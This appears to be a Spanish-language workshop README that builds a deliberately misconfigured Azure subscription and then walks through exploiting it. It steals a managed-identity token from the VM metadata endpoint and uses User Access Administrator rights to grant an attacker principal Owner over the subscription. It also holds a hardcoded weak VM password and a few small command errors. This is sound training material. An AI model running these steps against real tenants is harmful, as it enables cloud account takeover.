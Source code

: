 # Escalada-de-Privilegios-en-Azure

## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción
subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada
identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM
vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM
sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"
echo $sp_credentials
echo "--------------------------------------------------------"

Acción: Copiar  (appId, password, tenant) generadas


¡Importante! Guarde y proporcione a los participantes del workshop el App ID, Password y Tenant ID generados en el último paso.

## Fase 2: Ejecución de la Escalada de Privilegios 

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada
Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

   1. Instalar silenciosamente jq, una herramienta necesaria para parsear JSON
      sudo apt-get update > /dev/null 2>&1 && sudo apt-get install -y jq > /dev/null 2>&1

  2. Obtener el token de acceso de la identidad, usando jq para extraerlo
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
      3. Usar el token para realizar una llamada a la API de Azure y listar recursos
       curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation-rg/resources?api-version=2021-04-01"

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"


B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante
  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1

  Asignar el rol de Propietario al Object ID del atacante
 az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"
    '
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "<APP_ID>" \
    -p "<PSWD>" \
    --tenant "<TENANT_ID>"


(En la máquina local) El atacante, ahora Owner, crea un nuevo grupo de recursos
az group create --name "prueba-de-control-total" --location "westus"

